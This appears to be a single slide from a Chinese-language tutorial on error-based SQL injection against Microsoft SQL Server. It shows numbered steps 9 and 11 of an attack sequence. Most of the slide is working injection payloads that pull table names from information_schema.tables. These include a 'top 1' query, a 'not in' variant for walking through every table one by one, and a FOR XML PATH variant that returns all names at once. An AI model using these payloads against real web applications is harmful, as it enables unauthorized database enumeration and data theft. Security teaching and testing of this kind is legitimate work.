

MSSql报错注入
MSSql报错注入的过程

9、获取第一个表名:
Payload：and 1=(select top 1 table_name from information_schema.tables)

11、获取其他表名：
payload：and 1=(select top 1 table_name from information_schema.tables where table_name not in('emails')
说明：利用not in依次遍历出所有表名，直到报错的时候，就是所有的表名都判断完成。

and 1=(select top 1 table_name from information_schema.tables where table_name not in(select top 2 table_name from information_schema.tables))

and 1=(select quotename(table_name) from information_schema.tables FOR XML PATH(''))